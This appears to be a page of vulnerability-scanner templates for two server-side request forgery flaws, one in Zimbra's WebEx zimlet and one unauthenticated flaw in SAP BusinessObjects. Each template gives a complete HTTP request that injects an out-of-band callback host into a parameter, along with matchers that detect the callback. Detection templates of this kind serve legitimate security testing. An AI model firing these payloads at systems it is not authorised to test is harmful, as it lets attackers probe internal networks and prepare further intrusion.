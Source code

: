 ## Description

- Zimbra Collaboration Suite (ZCS) before 8.8.15 Patch 7 is susceptible to server-side request forgery when WebEx zimlet is installed and zimlet JSP is enabled.
- severity - critical
- tags - cve,cve2020,zimbra,ssrf,oast

## Requests

### Step - 1

```
GET /zimlet/com_zimbra_webex/httpPost.jsp?companyId=http://{{interactsh-url}}%23 HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# SAP - Unauthenticated Blind SSRF

## Description

- SAP BusinessObjects Business Intelligence Platform (Web Services) versions - 410, 420, 430, allows an unauthenticated attacker to inject arbitrary values as CMS parameters to perform lookups on the internal network which is otherwise not accessible externally. On successful exploitation, attacker can scan internal network to determine internal infrastructure and gather information for further attacks like remote file inclusion, retrieve server files, bypass firewall and force the vulnerable server to perform malicious requests, resulting in a Server-Side Request Forgery vulnerability.

- severity - medium
- tags - cve,cve2020,sap,ssrf,oast,unauth

## Requests

### Step - 1

```
POST /AdminTools/querybuilder/logon?framework= HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

aps={{interactsh-url}}&usr=anything&pwd=anything&aut=secEnterprise&main_page=ie.jsp&new_pass_page=newpwdform.jsp&exit_page=logonform.jsp

```
